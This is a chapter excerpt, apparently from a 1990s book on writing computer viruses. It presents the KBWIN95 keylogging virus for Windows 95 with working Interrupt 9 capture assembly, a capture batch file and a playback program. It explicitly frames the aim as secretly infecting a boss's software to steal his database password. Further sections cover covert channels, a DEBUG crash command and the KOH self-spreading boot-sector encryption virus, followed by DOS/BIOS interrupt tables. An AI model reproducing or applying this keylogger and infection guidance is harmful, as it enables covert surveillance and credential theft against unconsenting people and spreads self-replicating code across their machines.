As we saw in the last chapter, computer viruses can be used to breach the security of an operating system and enable a user to gain information to which he does not normally have access. We've seen how a virus can exploit the normal, documented design of an operating system to leak information. One could, of course, design an operating system to take account of viral attacks. For example, there is no reason a user with higher security clearance should be able to transfer data to one with lower clearance. Such operating systems are not so easy to design securely, however. There are lots of places where information could leak through, with a little help. Most so-called secure operating systems have holes in them that can be exploited in a variety of waystoget information outofplaces where it's not supposed to come. Some so-called secure operating systems have holes so big you could move megabytes of data per second through them.
In this chapter, I'll explain how viruses can be used to compromise security in multi-user systems with an example of moderate complexity. Our example will be the KBWIN95 virus which can be used to capture keystrokes in Windows 95 and feed them from one DOS box to another. Really, calling Windows 95 a secure operating system is a joke. It's full of so many holes it's ridiculous. Yet it is a good example, because it makes a pretense of security, and if you've read this far, you'll be able to follow the procedures for compromising it without learning a lot about some obscure operating system. This example also does a good job at teaching you how to do some basic operating system hacking.
For years and years, Microsoft has said Windows 95 (or, originally, Windows 4.0) would be a protected, pre-emptive, multitasking operating system. First, let me explain what is meant by a "protected, pre-emptive multitasking operating system." A multitasking operating system is simply an operating system which is capable of sharing system resources so that more than one program can run at the same time. Windows 3.1 in enhanced mode is a good example of that. With it, you can have three different copies of DOS and four different Windows programs going all at once. Windows, however, is not pre-emptive. If you switch tasks using the Alt-Esc key combination, your old task stops dead in its tracks and the new one wakes up. The old task will remain frozen right where you left it until you come back to it, and there it will be waiting for you. The only way for the old task to get CPU time is for other tasks to explicitly release CPU time to it.
A pre-emptive multitasking operating system differs from Windows 3.1 in that it will give slices of CPU time to all of the tasks running under the operating system. When you switch the program being displayed on the screen, your old program doesn't stop running. It continues to work in the background. This is very convenient if, for example, you're running a program that must crunch numbers for hours on end. You can then start the program and still use the computer for other things while it crunches those numbers. It's also quite useful when two people are trying to run two different tasks on the same machine. Then, both get CPU time to run their programs.
A protected multitasking operating system is one in which each task is completely isolated from all the others, and isolated from the operating system kernel. When each task is protected, none of them can interfere with any other. Thus, if one task completely hangs up, the operating system and the other tasks will continue to run without a hitch. Furthermore, one task cannot engage in any hanky-panky with other tasks in the system.
Obviously, a protected, pre-emptive multitasking operating system is essential for any multi-user environment. Windows 3.1 failed to meet these requirements. it is neither pre-emptive nor protected. Windows 95 is billed as such by Microsoft, but it ain't true, folks.
Windows 95 certainly is pre-emptive. You canstart up multiple programs and watch them execute simultaneously, and that's pretty nice. Unfortunately, it's not protected very well at all. This means that if you had a background process running while you're typing in a long document, and that background processcrashes,you could watch all of Windows 95 go down and say a mournful bye-bye to your document.
Try this in a DOS box for a quick crash: Fire up DEBUG and then fill the first 64K of memory with zeros using the fill command,
-f 0:0 FFFF 0
The result is a Windows 95 crash. If Windows 95 were truly protected, you would get only acrash in the DOS box, and Windows 95 would be able to close that box and dispose of it, while everything else continued to run quietly. But that's not what happens. In fact, the way Windows 95 handles system memory is much more complex than this, as we'll soon see.
Well, if one can crash Windows 95 so simply by writing data to memory, it means that such writing is not local to a process. A process is simply one task that the operating system is executing, e.g. a DOS box. Such a crash implies that we've damaged memory that is relied upon by all of Windows 95 - global memory. And if one can modify global memory from within a process, it stands to reason that one process could modify global memory - write something to it - and another process could read it. If done with due respect to the operating system, the result would be not to crash the system, but to open a hidden door to transfer information from process to process.
Suppose you wanted to snatch the password to a database program your boss was running in Windows 95. Suppose the database program is a DOS program, and you're both running Windows 95. Using the undocumented feature we've just discussed, and a virus, you could snatch that password the next time your boss fires up the database.
To set up a data transfer, one must find a non-critical data area which is also global. If one investigates the low memory (say all of segment 0) in a DOS box, one will find that it can be categorized in four ways:
Type 4 is exactly what we're looking for. The only way to determine what type of memory any particular byte is, is to experiment. (Unless you work for the operating system design group at Microsoft.) As it turns out, the area 0:600H to 0:6FFH is type 4 memory. We'll use it in the discussion that follows. In our code, this buffer is located with the label BUF_LOC and its size is determined by BUF_SIZE.
The particular security compromise we're discussing involves monitoring keystrokes. Typically, the database program will request a password and then accept keystrokes (without displaying them) up to an Enter (0DH). Thus, you'll want to put keystrokes from you boss' DOS box into this buffer and then capture them in your DOS box. Another type of security compromise could involve putting something else in the data transfer buffer. For example, one could transfer a file through the buffer, or video data.
To capture keystrokes, an Interrupt 9 hook will do nicely. Interrupt 9 is the hardware keyboard interrupt service routine. When a keystroke comes in from the keyboard, it's sent to an 8042 microcontroller which does some pre-processing of the data and notifies the 8259 interrupt controller chip. This chip then notifies the CPU, which transfers control to the Interrupt 9 ISR, which gets a byte from the 8042 and translates it into an ASCII code and puts it in the buffer at 0:41CH. When a program requests a keystroke via software interrupt 16H, the oldest keystroke in this buffer is returned to it.
To capture keystrokes, one can simply hook Interrupt 9 and call the original handler first, then grab the keystroke it just put in the buffer at 0:41CH out of the buffer after the original handler returns control to the interrupt hook. These keystrokes can then be logged to the data transfer buffer, or wherever else you like. A complete Interrupt 9 hook looks like this:
INT_9:
push ax
in al,60H ;get keystroke from 8042 directly
push ax ;save it
pushf ;call old handler
call DWORD PTR cs:[OLD_INT9_OFS]
pop ax ;restore keystroke we just got
and al,80H ;was it an upstroke (scan code>80)?
jnz I9EX ;yes, ignore it and exit
cli ;else ints off
push ds ;and save everything
push si
push cx
push bx
push ax
xor ax,ax
mov ds,ax
mov bx,41CH
mov bx,[bx] ;get address of keystroke in buffer
sub bx,2
cmp bx,1CH ;adjust if necessary
jne I91
mov bx,3CH
I91: add bx,400H
mov ax,[bx] ;get word just put in key buffer
mov bx,BUF_LOC+2 ;now look at virus' global buffer
add WORD PTR [bx],2 ;update buffer size by 2
mov bx,[bx] ;and find @ for this keystroke
sub bx,2
cmp bx,BUF_SIZE
jg I9X ;skip out if buffer full
add bx,BUF_LOC+4
mov [bx],ax ;store keystroke in global buffer
I9X: pop ax ;restore everything and exit
pop bx
pop cx
pop si
pop ds
I9EX: pop ax
iret
On the other end, a program which continuously reads the data transfer buffer and logs it to disk should do the trick.
Well, it should do the trick, but the reality of such acrobatics is not quite so simple. The memory area 0:600H to 6FFH which we called global isn't really the same physical memory in both instances of DOS. In fact, they're two different locations that are kept filled with the same data by the operating system - at least, some of the time.
If one attempts to write a capture program that logs data continuously from the transfer buffer to disk like this:
LP1: call GETDATA
call DELAY
call IS_KEY_PRESSED
jnz LP1
the program will only log the data there when it starts. Any data put in the buffer after the program starts won't ever get through. The reason is that the transfer buffer in an instance of DOS isn't global when a program is running. Changes in one DOS box aren't copied to the other boxes unless they're idle in some sense. Stop running the capture program you wrote and - bingo - the buffer gets updated. In the end, one finds that the memory isn't purely global or local. The real truth of how it behaves is proprietary, and it wasn't ever designed to be messed with.
Of course, you can mess with it. It's just that, like so many other facets of high end operating systems, you've got to figure out how to do what you want to do by experiment.
In the end, the way to implement a good capture program is with a batch file. Rather than using a loop in the program as above, it can be coded simply as
call GETDATA
and then the loop implemented in the batch file. The batch file gives some control back to COMMAND.COM after each line, which turns out to be enough to get the data transfer buffer updated. We don't really need to know why that works (although it might be nice), we just need to know that it does, in fact, work.
The next problem one must face is, how does one get one's boss to install the Interrupt 9 service routine in his DOS box so you can monitor what he's doing? Certainly one cannot simply hand him a program INSECURE.COM and ask him to run it! (Though I've had some bosses incompetent enough that it would be worth a try.) In this case, a computer virus is a great choice. If one simply infects the database program with a virus which installs the desired int 9 handler, then the interrupt service routine will go in place anytime one runs the database, and it will be done secretly, without their knowledge!
One can go even further than this with a virus, though. Suppose you did not even have access to the database program. If a virus can infect any program you boss might execute then it can infect all his software. And if he executes any of his programs, the virus will go resident and install the Interrupt 9 handler, and start logging his keystrokes.
Any simple memory-resident virus could have an Interrupt 9 Handler like what we've discussed inserted into it. The KBWIN95 virus is a variant of the well-know Jerusalem virus which infects only EXE files. To infect files, it hooks DOS Interrupt 21H, Function 4BH, which is the EXEC function used to launch programs, and it uses the DOS TSR Interrupt 21H, Function 31H to goresident. Since it uses a completely documented method of going resident, and it already hooks Interrupt 21H, few modifications are necessary and it's very unlikely to be incompatible with a Windows 95 DOS box. Once resident, every DOS EXE program that is executed will be automatically infected.
The KBWIN95 virus itself is actually local to the DOS box. It can be resident and active in one DOS box and absent in another. The data it puts in the special inter-process keyboard buffer is global, though. This makes it possible to use the virus without actually becoming infected yourself.
The covert channel we've just discussed revolves around some sloppy undocumented operating system design. A covert channel does not, however, have to have anything to do with such sloppy design. Any operating system which shares resources among users with different levels of security is subject to compromise. There have to be covert channels available for communicating information from the highest level of security to the lowest level.
For example, if any program can query the amount of disk space available, then information can be leaked that way. A large amount of space can indicate a binary 1, and a small amount of space can indicate a binary 0. So a virus can sit in a high-security area hogging up the disk, then releasing space, to transmit 0's and 1's to a capture program in a low security account. Depending on the computer system, a more sophisticated arrangement can often be worked out. For example, disk space is reported a cluster at a time in PC's, so one could transmit a whole byte by adjusting the least significant byte of the number of free clusters to be a meaningful piece of information.
Now obviously, there will be some noise in such a communication channel. If another program uses disk space between the time when the virus makes the adjustment and when the capture program reads it, the capture program will get the wrong byte. Thus, one would have to set up a protocol that would deal with the noise -- just like any ordinary modem communication protocol. It's a well known theorem that no matter how much noise there is in a channel like this, communication can still take place.
Other covert channels include things like file names that might be visible, or shared resources that may or may not be available, etc. For example, the system administrator could delete the Read Mail program, rmail, on a computer, and then everyone who tried to use it would find that it's not there. Simple enough. A virus that ran with the system administrator's privileges could rename the program to rdmail and name it back to rmail a hundred times a second, while another program just called it continuously, and built a data stream based on whether it was there when called or not. In this way, information could be transferred from a more trusted user to a less trusted user.
As I said, any computer that shares resources among users will have covert channels. According to Fred Cohen, the most secure systems known today typically have a thousand such covert channels and one can typically transmit 10 bits per second through each of them.
As we've discussed, the best way to implement the Capture program is as a batch file that calls some other programs. This batch file just loops endlessly, calling the binary Capture program, until a key is pressed. The batch file CAPTURE.BAT looks like this:
@echo off echo Keypress Capture Program for use with KBCAP95 virus! create :start kbcap if ERRORLEVEL 1 GOTO START
Simple enough. This batch file calls two programs, CREATE and KBCAP. Create simply creates the file that KBCAP will store data to as it finds it in the global buffer. It was made a separate program to reduce overhead in KBCAP. Both CREATE and KBCAP can be assembled with TASM, MASM or A86. The CREATE.ASM program looks like this:
The KBCAP.ASM program looks like this:
Finally, the utility PLAYCAP is just a Turbo Pascal program to read the CAPTURE.CAP file which the capture program creates. This allows you to see what keys were pressed while the KBWIN95 virus was active:
program playcap;
uses crt;
var
fin:file of char;
c:char;
begin
assign(fin,'capture.cap');
reset(fin);
repeat
delay(100);
read(fin,c);
write(c);
if c=#13 then write(#10);
read(fin,c);
until eof(fin);
close(fin);
end.
The KBWIN95 virus assembles to an EXE file using TASM or MASM. If you want to assemble it with A86 you'll have to go in and hard-code a few variables. A86 is just too dumb to handle it otherwise. There are two modules here, DEFS.ASM and KBWIN95.ASM. First, DEFS.ASM:
;Buffer size and location definitions for use with KBWIN95 and the CAPTURE ;program. BUF_LOC EQU 600H ;This works with Windows-95 Final Beta BUF_SIZE EQU 64 ;Size of buffer in words
And now KBWIN95.ASM
The KBWIN95 and the Capture program are designed to be easily demonstrated with Windows 95, and you don't need a network to do it. Just start a DOS box from the program manager and start the CAPTURE batch file running. Next, start another DOS box from the program manager and execute the virus in it. Now, anything you type in that DOS box will be logged by the capture program.
Please note that KBWIN95 is specifically NOT compatible with ordinary DOS or Windows 3.X and if you run it in those envrionments it will trash important system data and crash your machine pretty quickly. To run properly, you must use it in a Windows 95 environment!
A computer virus need not be destructive or threatening. It could justaswell performsometaskwhichthe computeruserwants done. Such a program would be a "good virus."
A number of different ideas about good viruses have been suggested,1 and several have even been implemented. For example, the Cruncher virus compresses files it attaches itself to, thereby freeing up disk space on the host computer. Some viruses were written as simple anti-virus viruses, which protect one's system from being infected by certain other viruses.
One of the first beneficial viruses to actually get used in the real world--and not just as a demo that is examined and discarded - is the Potassium Hydroxide, or KOH virus.
KOH is a boot sector virus which will encrypt a partition on the hard disk as well as all the floppy disks used on the computer where it resides. It is the most complicated virus discussed in this book, and also one of the best.
Encrypting disks is, of course, something useful that many people would like to do. The obvious question is, why should a computer virus be a preferable way to accomplish this task? Why not just conventional software?
There are two levels at which this question should be asked:
Let's answer these questions:
If one wants to encrypt a whole disk, including the root directory, the FAT tables, and all the data, a boot sector virus would be an ideal approach. It can load before even the operating systemboot sector (or master boot sector) gets a chance to load. No software that works at the direction of the operating system can do that. In order to load the operating system and, say, a device driver, at least the root directory and the FAT must be left unencrypted, as well as operating system files and the encrypting device driver itself. Leaving these areas unencrypted is a potential security hole which could be used to compromise data on the computer.
By using technology originally developed for boot sector viruses (e.g. the ability to go resident before DOS loads), the encryption mechanism lives beneath the operating system itself and is completely transparent to this operating system. All of every sector is encrypted without question in an efficient manner. If one's software doesn't do that, it can be very hard to determine what the security holes even are.
The KOH program also acts like a virus in that -- if you choose -- it will automatically encrypt and migrate to every floppy disk you put in your computer to access. This feature provides an important housekeeping function to keep your environment totally secure. You never need to worry about whether or not a particular disk is encrypted. If you've ever accessed it at all, it will be. Just by normally using your computer, everything will be encrypted.
Furthermore, if you ever have to transport a floppy disk to another computer, you don't have to worry about taking the program to decrypt with you. Since KOH is a virus, it puts itself on every disk, taking up a small amount of space. So it will be there when you need it.
This auto-encryption mechanism is more important than many people realize in maintaining a secure system. Floppy disks can be a major source of security leaks, for a number of reasons: (1) Dishonest employees can use floppy disks to take valuable data home or sell it to competitors, (2) the DOS file buffer system can allow unwanted data to be written to a disk at the end of a file and (3) the physical nature of a floppy disk makes it possible to read data even if you erase it. Let's discuss these potential security holes a bit to see how KOH goes about plugging them.
A dishonest employee can conceivably take an important proprietary piece of information belonging to your company and sell it to a competitor. For example, a database of your customers and price schedules might easily fit on a single diskette, and copying it is only about a minute's work. Even a careless employee may take such things home and then he's subject to being robbed by the competitor.
KOH can encrypt all floppy disks, as they are used, so one can never write an unencrypted disk. Secondly, since KOH uses different pass phrases for the hard disk and floppy disks, an employer could set up a computer with different pass phrases and then give the employee the hard disk pass phrase, but not the floppy pass phrase. Since the floppy pass phrase is loaded from the hard disk when booting from the hard disk, the employee never needs to enter it on his work computer. However, if he or she takes a floppy away and attempts to access it, the floppy pass phrase must be used. If the employee doesn't know it, he won't be able to access the disk.
Obviously this scheme isn't totally fool-proof. It's pretty good, though, and it would take even a technically inclined person a fair amount of work to crack it. To an ordinary salesman or secretary, it would be as good as fool-proof.
When DOS (and most other operating systems) write a file to disk, it is written in cluster-size chunks. If one has a 1024 byte cluster and one writes a file that is 517 bytes long to disk, 1024 bytes are still written. The problem is, there could be just about anything in the remaining 507 bytes that are written. They may contain part of a directory or part of another file that was recently in memory.
So suppose you want to write a "safe" file to an unencrypted floppy to share with someone. Just because that file doesn't contain anything you want to keep secret doesn't mean that whatever was in memory before it is similarly safe. And it could go right out to disk with whatever you wanted to put there.
Though KOH doesn't clean up these buffers, writing only encrypted data to disk will at least keep the whole world from looking at them. Only people with the floppy disk password could snoop for this end-of-file-data. (To further reduce the probability of someone looking at it, you should also clean up the file end with something like CLEAN.ASM, listed in Figure 32.1).
Figure 32.1: The CLEAN.ASM Listing
If one views a diskette as an analog device, it is possible to retrieve data from it that has been erased. For this reason even a so-called secure erase program which goes out and overwrites clusters where data was stored is not secure. (And let's not even mention the DOS delete command, which only changes the first letter of the file name to 0E5H and cleans up the FAT. All of the data is still sitting right there on disk!)
There are two phenomena that come into play which prevent secure erasure. One is simply the fact that in the end a floppy disk is analog media. It has magnetic particles on it which are statistically aligned in one direction or the other when the drive head writes to disk. The key word here is statistically. A write does not simply align all particles in one direction or the other. It just aligns enough that the state can be unambiguously interpreted by the analog-to-digital circuitry in the disk drive.
For example, consider Figure 32.2. It depicts three different "ones" read from a disk. Suppose A is a virgin 1, written to a disk that never had anything written to it before. Then a one written over a zero would give a signal more like B, and a one written over another one might have signal C. All are interpreted as digital ones, but they're not all the same. With the proper analog equipment you can see these differences (which are typically 40 dB weaker than the existing signal) and read an already-erased disk. The same can be said of a twice-erased disk, etc. The signals just get a little weaker each time.
Figure 32.2: Three different "ones" on a floppy disk.
The second phenomenon that comes into play is wobble. Not every bit of data is written to disk in the same place, especially if two different drives are used, or a disk is written over a long period of time during which wear and tear on a drive changes its characteristics. (See Figure 32.3) This phenomenon can make it possible to read a disk even if it's been overwritten a hundred times.
Figure 32.3: Real-world multiple disk writes.
The best defense against this kind of attack is to see to it that one never writes an unencrypted disk. If all the spy can pick up off the disk using such techniques is encrypted data, it will do him little good. The auto-encryption feature of KOH can help make this never a reality.
KOH is very similar in operation to the BBS virus. It is a multi-sector boot sector virus that makes no attempt to hide itself with stealth techniques. Instead of employing a logic bomb, the virus merely contains some useful logic for encrypting anddecrypting a disk.
KOH infects diskettes just like BBS. It replaces the boot sector with its own, and hides the original boot sector with the rest of its code in an unoccupied area on the disk. This area is protected by marking the clusters it occupies as bad in the FAT. The one difference is that KOH only infects floppies if the condition flag FD_INFECT is set equal to 1 (true). If this byte is zero, KOH is essentially dormant and does not infect disks. We'll discuss this more in a bit. For now, suffice it to say that FD_INFECT is user-definable.
When KOH infects a floppy disk, it automatically encrypts it using the current floppy disk pass phrase. Encryption always preceeds infection so that if the infection process fails (e.g. if the disk too full to put the virus code on it) it will still be encrypted and work properly. Note that the virus is polite. It will not in any instance destroy data.
Like BBS, KOH infects hard disks only at boot time. Unlike BBS, when migrating to a hard disk, KOH is very polite and always asks the user if he wants it to migrate to the hard disk. This is easily accomplished in code by changing a simple call,
call INFECT_HARD
to something like
mov si,OFFSET HARD_ASK
call ASK
jnz SKIP_INF
call INFECT_HARD
SKIP_INF:
so that if the question asked at HARD_ASK is responded to with a "N"then INFECT_HARD is not called, and the virus goes resident, but doesn't touch the hard disk.
To infect the hard disk, KOH merely places its own code in the first VIR_SIZE+1 = 10 sectors. The original Master Boot Sector is placed in sector 11, and that's it. Specifically, encryption does not take place when the disk is first infected.
However, the next time the hard disk is booted, KOH loads into memory. It will immediately notice that the hard disk is not yet encrypted (thanks to a flag in the boot sector) and ask the user if he wants to encrypt the hard disk. The user can wait as long as he likes to encrypt, but until he does, this question will be asked each time he boots his computer. This extra step was incorporated in so the user could make sure KOH is not causing any conflicts before the encryption is done. KOH is much easier to uninstall before the encryption is performed, because encrypting or decrypting a large hard disk is a long and tedious process.
KOH uses the International Data Encryption Algorithm (IDEA) to encrypt and decrypt data. 2 IDEA uses a 16-byte key to encrypt and decrypt data 16 bytes at a time. KOH maintains three separate 16-byte keys, HD_KEY, HD_HPP and FD_HPP. 3
In addition to the 16-byte keys, IDEA accepts an 8-byte vector called IW as input. Whenever this vector is changed, the output of the algorithm changes. KOH uses this vector to change the encryption from sector to sector. The first two words of IW are set to the values of cx and dx needed to read the desired sector with INT 13H. The last two words are not used.
Since KOH is highly optimized to save space, the implementation of IDEA which it uses is rather convoluted and hard to follow. Don't be surprised if it doesn't make sense, but you can test it against a more standard version written in C to see that it does indeed work.
Since a sector is 512 bytes long, one must applyIDEA 32 times, once to each 16-byte block in the sector, to encrypt a whole sector. When doing this, IDEA is used in what is called "cipher block chaining" mode. This is the most secure mode to use, since it uses the data encrytped to feed back into IW. This way, even if the sector is filled with a constant value, the second 16-byte block of encrypted data will look different from the first, etc., etc.
KOH hooks both Interrupt 13H (the hard disk) and Interrupt 9 (the keyboard hardware ISR). Since all hard disk access under DOS is accomplished through Interrupt 13H, if KOH hooks Interrupt 13H below DOS, and does the encryption and decryption there, the fact that the disk is encrypted will be totally invisible to DOS.
The logic of the hard disk interrupt hook is fairly simple, and is depicted in Figure 32.4. The important part is the encryption and decryption. Whenever reading sectors from the encrypted partition, they must be decrypted before being passed to the operating system. The logic for reading looks something like this:
READ_FUNCTION:
pushf
call DWORD PTR [OLD_13H]
call IS_ENCRYPTED
jz DONE_DECRYPT
call DECRYPT_DATA
DONE_DECRYPT:
Likewise, to write sectors to disk, they must first be encrypted:
WRITE_FUNCTION:
call IS_ENCRYPTED
jz DO_WRITE
call ENCRYPT_DATA
DO_WRITE:
pushf
call DWORD PTR [OLD_13H]
However, if we leave the interrupt hook like this, it will cause problems. That's because the data just written to disk is now sitting there in memory in an encrypted state. Although this data may be something that is just going to be written to disk and discarded, we don't know. It may be executed or used as data by a program in another millisecond, and if it's just sitting there encrypted, the machine will crash, or the data will be trash. Thus, one must add
call IS_ENCRYPTED
jnz WRITE_DONE
call DECRYPT_DATA
WRITE_DONE:
after the call to the old int 13H handler above.
KOH also hooks the keyboard Interrupt 9. This is the hardware keyboard handler which we've discussed already. The purpose of this hook is merely to install some hot keys for controlling KOH. Since KOH loads before DOS, it's hard to set command-line parameters like one can with an ordinary program. The hot keys provide a way to control KOH as it is running. The hot keys are Ctrl-Alt-K, Ctrl-Alt-O and Ctrl- Alt-H.
As keystrokes come in, they are checked to see if Ctrl and Alt are down by looking at the byte at 0:417H in memory. If bit 2 is 1 then Ctrl is down and bit 3 flags Alt down. If both of these keys are down, the incoming character is checked for K, O or H. If one of these is pressed, a control routine is called.
Ctrl-Alt-K allows the user to change the pass phrase for either the hard disk or the floppy disk, or both. The complicated use of keys we've already mentioned was implemented to make pass phrase changes quick and efficient.
When KOH is used in a floppy-only system, changing the pass phrase is as simple as changing FD_HPP in memory. Since floppies are changed frequently, no attempt is made to decrypt and re-encrypt a floppy when the pass phrase is changed. A new disk must be put in the drive when the pass phrase is changed, because old disks won't be readable then. (Of course, it's easy to change back any time and you can start up with any pass phrases you like, as well.)
Hard disks are a little more complex. Since they're fixed, changing the pass phrase would mean the disk would have to be totally decrypted with the old pass phrase and then re-encrypted with the new one. Such a process could take several hours. That could be a problem if someone looked over your shoulder and compromised your pass phrase. You may want to -- and need to -- change it instantly to maintain the security of your computer, not next Saturday when it'll be free for six hours. Using a double key HD_KEY and HD_HPP makes it possible to change pass phrases very quickly. HD_HPP is a fixed key that never gets changed. That's what is built by pressing keys to generate a random number when KOH is installed. This key is then stored along with FD_HPP in one special sector. That special sector is kept secure by encrypting it with HD_KEY. When one changes the hard disk pass phrase, only HD_KEY is changed. Then KOH can just unencrypt this one special sector with the old HD_KEY, re-encrypt with the new HD_KEY, and the pass phrase change is complete! Encrypting and decrypting one sector is very fast--much faster than doing 10,000 or 50,000 sectors
Figure X.5: The logic of the hard disk interrupt hook.
The Ctrl-Alt-O hot key tells KOH whether one wants it to automatically encrypt floppy disks or not. Pressing Ctrl-Alt-O simply toggles the flag FD_INFECT, which determines whether KOH will do this or not. When auto-encrypt is activated, KOH displays a "+" on the screen, and when deactivated, a "-" is displayed. Since this flag is written to disk, it will stay set the way you want it if you set it just once.
The KOH virus is so polite, it even cleans itself off your disk if you want it to. It will first make sure you really want to uninstall. If one agrees, KOH proceeds to decrypt the hard disk and remove itself, restoring the original master boot sector.
Because KOH has been available as freeware for some time, users have provided lots of feedback regarding its compatibility with various systems and software. That's a big deal with systems level software. As a result, KOH is probably one of the most compatible viruses ever developed. Most just don't get that kind of critical testing from users.
KOH has been made available as freeware for nearly two years, and it's very compatible with a wide variety of computers. It works well with all existing versions of DOS and Windows 3.0 and 3.1. it is also transparent to Stacker and Microsoft's disk compression.
If you run the Windows 32-bit disk driver device, it may tell you there's a virus and refuse to install. This isn't really a problem - you just need to get rid of it by modifying SYSTEM.INI in order to run KOH. That driver has enough other problems that you'll probably do better without it anyhow.
If you're running a SCSI hard disk and also some other SCSI devices, like a tape drive, you may have an ASPI (Advanced SCSI Programming Interface) driver installed. This can interfere with KOH because it takes over Interrupt 13H totally, and then all it can see is encrypted data. There are several ways to resolve this problem. One is to do away with the ASPI driver if you don't need it. If one only has a SCSI hard drive it isn't necessary. The ROM BIOS on the SCSI card should work fine without ASPI. Secondly, if one needs the ASPI driver for peripherals, one can install two SCSI cards. Put the peripherals and the ASPI on one card, and the hard drive on the other card. Finally, if you're adventurous, disassemble the ASPI driver, or getthe source,and modify it to call KOH when in memory.
As of the date of this writing, the KOH virus is illegal to export in executable form from the US. If you create an executable of it from the code in this book, and export it, you could be subject to immediate confiscation of all your property without recourse, and possibly also to jail after a trial. There is, however, no restriction (at present) against exporting this code in printed form, as in this book.
KOH consists of several modules which must all be present on the disk to assemble it properly. KOH.ASM is the main file, which includes the loader, the boot sector, the interrupt handlers, hard disk encryptor, etc. KOHIDEA.ASM is an include file that contains the code for the IDEA algorithm. FATMAN.ASM is the FAT manager routines. These differ slightly from the FATMAN.ASM originally listed with the BBS virus because the FAT is sometimes encrypted. The PASS.ASM include file contains the pass phrase entry routines, and RAND.ASM contains the pseudo-random number generator.
To build the KOH virus, just assemble KOH.ASM, preferably using TASM. Then, run the KOH.COM file you produce to infect and encrypt a diskette in the A: drive (or specify B: on the command line if you'd rather use your B: drive). To migrate KOH to the hard disk, just boot from the infected floppy. KOH will ask if you want it to migrate to the hard disk; just answer yes.
When you assemble KOH, make sure the code does not overrun the scratchpad buffer where the disk is read into and written from. If you do, it will cause KOH to crash. Since KOH is highly optimized and crunched into the minimum amount of space avaiable to it, an assembler that did not optimize the assembly could cause code to overflow into this buffer, which is located just below the boot sector.
All BIOS and DOS calls which are used in this book are documented here. No attempt is made at an exhaustive list, since such information has been published abundantly in a variety of sources. See PC Interrupts by Ralf Brown and Jim Kyle, for more complete interrupt information.
Registers: ah = 0
al = Desired video mode
Returns: None
This function sets the video mode to the mode number requested in the al register.
Registers: ah = 0EH
al = Character to display
bl = Forground color, in graphics modes
Returns: None
This function displays the character in al on the screen at the current cursor location and advances the cursor by one position. It interprets al=0DH as a carriage return, al=0AH as a line feed, al=08 as a backspace, and al=07 as a bell. When used in a graphics mode, bl is made the foreground color. In text modes, the character attribute is left unchanged.
Registers: ah = 0FH Returns: al = Video mode
This function gets the current video mode and returns it in al.
Registers: ah = 0 Returns: c = set on error
This function resets the disk system, sending a reset command to the floppy disk controller.
Registers: ah = 2
al = Number of sectors to read on same track, head
cl = Sector number to start reading from
ch = Track number to read
dh = Head number to read
dl = Drive number to read
es:bx = Buffer to read sectors into
Returns: c = set on error
ah = Error code, set as follows (for all int 13H fctns)
80 H - Disk drive failed to respond
40 H - Seek operation failed
20 H - Bad NEC controller chip
10 H - Bad CRC on disk read
09 H - 64K DMA boundary crossed
08 H - Bad DMA chip
06 H - Diskette changed
04 H - Sector not found
03 H - Write on write protected disk
02 H - Address mark not found on disk
01 H - Bad command sent to disk i/o
Function 2 reads sectors from the specified disk at a given Track, Head and Sector number into a buffer in RAM. A successful read returns ah=0 and no carry flag. If there is an error, the carry flag is set and ah is used to return an error code. Note that no waiting time for motor startup is allowed, so if this function returns an error, it should be tried up to three times.
Registers: ah = 3
al = Number of sectors to write on same track, head
cl = Sector number to start writing from
ch = Track number to write
dh = Head number to write
dl = Drive number to write
es:bx = Buffer to write sectors from
Returns : c = set on error
ah = Error code (as above)
This function works just like the read, except sectors are written to disk from the specified buffer
Registers: ah = 5
al = Number of sectors to format on this track, head
cl = Not used
ch = Track number to format
dh = Head number to format
dl = Drive number to format
es:bx = Buffer for special format information
Returns: c = set on error
ah = Error code (as above)
The buffer at es:bx should contain 4 bytes for each sector to be formatted on the disk. These are the address fields which the disk controller uses to locate the sectors during read/write operations. The four bytes should be organized as C,H,R,N;C,H,R,N, etc., where C=Track number, H=Head number, R=Sector number, N=Bytes per sector, where 0=128, 1=256, 2=512, 3=1024.
Registers: ah = 8
dl = Drive number
Returns: c = Set on error
ah = 0 if successful, else error code
ch = Low 8 bits of maximum cylinder number
cl = Maximum sector number + hi cylinder no.
dh = Maximum head number
dl = Number of drives in system
es:di = Address of drive parameter table (floppies)
Registers: ah = 0
Returns: cx = High portion of clock count
dx = Low portion of clock count
al = 0 if timer has not passed 24 hour count
al = 1 if timer has passed 24 hour count
The clock count returned by this function is the number of timer ticks since midnight. A tick occurrs every 1193180/65536 of a second, or about 18.2 times a second. (See also Interrupt 21H, Function 2CH.)
Registers: None Returns: Does not return
This interrupt terminates the current program and returns control to the parent. It does not close any files opened by the process being terminated. It is identical to Interrupt 21H, Function 0. Interrupt 21H, Function 4CH is,however, more popular today because it allows the process to return a termination code to the parent.
Registers: ah = 9
ds:dx = Pointer to string to print
Returns: None
The character string at ds:dx is printed to the standard output device (which is usually the screen). The string must be terminated by a "$" character, and may contain carriage returns, line feeds, etc.
Registers: ah = 11H
ds:dx points to the FCB with the file name to be searched for
Returns: al = 0 if successful, 0FFH if not
The file name in the FCB used for the search can contain the wildcards "*" and "?", and it can include an FCB extension to search for files with specific attributes. This FCB must be left alone between calls to Function 11H and subsequent calls to Function 12H, because DOS uses data stored there for subsequent searches. The DTA will be set up with an FCB which contains the file name for an actual file found by the search. If the FCB at ds:dx had an extension, the FCB returned in the DTA will too.
Registers: ah = 11H
ds:dx points to the FCB with the file name
to be searched for
Returns: al = 0 if successful, 0FFH if not
This function works just like Function 11H, except it expects you to have already called Function 11H once. Typically, in searching for files, one calls Function 11H once, and then repeatedly calls Function 12H until al is returned non-zero.
Registers: ah = 1AH
ds:dx = New disk transfer area address
Returns: None
This function sets the Disk Transfer Area (DTA) address to the value given in ds:dx. It is meaningful only within the context of a given program. When the program is terminated, etc., its DTA goes away with it. The default DTA is at offset 80H in the Program Segment Prefix (PSP).
Registers: ah = 26H
dx = Segment for new PSP
Returns: c set if call failed
This copies the current program's PSP to the specified segment, and updates it with new information to create a new process. Typically, it is used to load a separate COM file for execution as an overlay.
Registers: ah = 2AH
Returns: dh = Month number (1 to 12)
dl = Day of month (1 to 31)
cx = Year (1980 to 2099)
al = Day of week (0 through 6)
Registers: ah = 2BH
dh = Month number
dl = Day of month
cx = Year
Returns: al = 0 if successful, 0FFH if invalid date
This function works as the complement to Function 2AH.
Registers: ah = 2CH
Returns: ch = Hour (0 through 23)
cl = Minutes (0 through 59)
dh = Seconds (0 through 59)
dl = Hundredths of a second (0 through 99)
Registers: ah = 2CH
ch = Hour (0 through 23)
cl = Minutes (0 through 59)
dh = Seconds (0 through 59)
dl = Hundredths of a second (0 through 99)
